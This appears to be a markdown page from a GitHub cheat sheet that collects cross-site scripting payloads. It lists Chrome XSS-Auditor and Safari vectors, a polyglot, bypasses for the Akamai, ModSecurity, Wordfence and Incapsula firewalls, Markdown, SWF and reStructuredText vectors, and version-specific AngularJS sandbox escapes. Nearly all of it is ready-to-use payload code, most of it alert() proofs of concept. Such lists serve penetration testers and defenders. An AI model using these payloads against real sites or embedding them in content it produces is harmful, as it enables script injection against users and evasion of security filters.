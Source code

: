 ## XSS

**Chrome XSS-Auditor Bypass** by [@vivekchsm](https://twitter.com/vivekchsm)

```html
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

**Chrome < v60 beta XSS-Auditor Bypass**

```html
<script src="data:,alert(1)%250A-->
```

**Other Chrome XSS-Auditor Bypasses**

```html
<script>alert(1)</script
```

```html
<script>alert(1)%0d%0a-->%09</script
```

```html
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
```

**Safari XSS Vector** by [@mramydnei](https://twitter.com/mramydnei/status/902470271327551489)

```html
<script>location.href;'javascript:alert%281%29'</script>
```

**XSS Polyglot** by [Ahmed Elsobky](https://github.com/0xSobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

**Kona WAF (Akamai) Bypass**

```html
\');confirm(1);//
```

**ModSecurity WAF Bypass**
Note: This kind of depends on what security level the application is set to. See: https://modsecurity.org/rules.html
```html
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
```

**Wordfence XSS Bypasses**

```html
<meter onmouseover="alert(1)"
```

```html
'">><div><meter onmouseover="alert(1)"</div>"
```

```html
>><marquee loop=1 width=0 onfinish=alert(1)>
```

**Incapsula WAF Bypasses** by [@i_bo0om](https://twitter.com/i_bo0om)

```html
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
```

```html
<img/src=q onerror='new Function`al\ert\`1\``'>
```

**jQuery < 3.0.0 XSS**
 by [Egor Homakov](https://github.com/jquery/jquery/issues/2432)

```js
$.get('http://sakurity.com/jqueryxss')
```

In order to really exploit this jQuery XSS you will need to fulfil one of the following requirements:

1) Find any cross domain requests to untrusted domains which may inadvertently execute script.
2) Find any requests to trusted API endpoints where script can be injected into data sources.

**URL verification bypasses (works without `&#x09;` too)**

```
javas&#x09;cript://www.google.com/%0Aalert(1)
```

**Markdown XSS**

```md
[a](javascript:confirm(1)
```

```md
[a](javascript://www.google.com%0Aprompt(1))
```

```md
[a](javascript://%0d%0aconfirm(1);com)
```

```md
[a](javascript:window.onerror=confirm;throw%201)
```

**Flash SWF XSS**

- ZeroClipboard: `ZeroClipboard.swf?id=\"))}catch(e){confirm(/XSS./.source);}//&width=500&height=500&.swf`

- plUpload Player: `plupload.flash.swf?%#target%g=alert&uid%g=XSS&`

- plUpload MoxiePlayer: `Moxie.swf?target%g=confirm&uid%g=XSS` (also works with `Moxie.cdn.swf` and other variants)

- FlashMediaElement: <code>flashmediaelement.swf?jsinitfunctio%gn=alert`1`</code>

- videoJS: `video-js.swf?readyFunction=alert%28document.domain%2b'%20XSS'%29`

- YUI "io.swf": `io.swf?yid=\"));}catch(e){alert(document.domain);}//`

- YUI "uploader.swf": `uploader.swf?allowedDomain=\%22}%29%29%29}catch%28e%29{alert%28document.domain%29;}//<`

- Open Flash Chart: `open-flash-chart.swf?get-data=(function(){alert(1)})()`

- Banner.swf (generic): `banner.swf?clickTAG=javascript:alert(document.domain);//`

- JWPlayer (legacy): `player.swf?playerready=alert(document.domain)` and `/player.swf?tracecall=alert(document.domain)`

- SWFUpload 2.2.0.1: `swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!confirm(1);//`

- FlowPlayer 3.2.7: `flowplayer-3.2.7.swf?config={"clip":{"url":"http://edge.flowplayer.org/bauhaus.mp4","linkUrl":"JavaScriPt:confirm(document.domain)"}}&.swf`

_Note: Useful reference on SWF XSS construction from [MWR Labs](https://labs.mwrinfosecurity.com/blog/popping-alert1-in-flash/)._

**Lightweight Markup Languages**

**RubyDoc** (.rdoc)

```rdoc
XSS[JavaScript:alert(1)]
```

**Textile** ([.textile](https://txstyle.org/))

```textile
"Test link":javascript:alert(1)
```

**reStructuredText** ([.rst](http://docutils.sourceforge.net/docs/user/rst/quickref.html))

```rst
`Test link`__.

__ javascript:alert(document.domain)  
```

**Unicode characters**

```html
†‡•＜img src=a onerror=javascript:alert('hacked')>…‰€
```

**AngularJS Template Injection based XSS**

*For manual verification on a live target, use `angular.version` in your browser console*

**1.0.1 - 1.1.5** by [Mario Heiderich (Cure53)](https://twitter.com/0x6D6172696F)

```js
{{constructor.constructor('alert(1)')()}}
```

**1.2.0 - 1.2.1** by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

**1.2.2 - 1.2.5** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

**1.2.6 - 1.2.18** by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

**1.2.19 - 1.2.23** by [Mathias Karlsson](https://twitter.com/avlidienbrunn)

```js
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

**1.2.24 - 1.2.29** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

**1.3.0** by [Gábor Molnár (Google)](https://twitter.com/molnar_g)

```
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```

**1.3.1 - 1.3.2** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf; 
    $eval('x=alert(1)//'); 
}}
```

**1.3.3 - 1.3.18** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join; 

  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
```

**1.3.19** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join; 
    $eval('x=alert(1)//'); 
}}

```

**1.3.20** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

**1.4.0 - 1.4.9** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```

**1.5.0 - 1.5.8** by [Ian Hickey](https://twitter.com/ianhickey1024)

```js
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}
```

**1.5.9 - 1.5.11** by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

**1.6.0+** (no [Expression Sandbox](http://angularjs.blogspot.co.uk/2016/09/angular-16-expression-sandbox-removal.html)) by [Mario Heiderich (Cure53)](https://twitter.com/0x6D6172696F)

```js
{{constructor.constructor('alert(1)')()}}
```
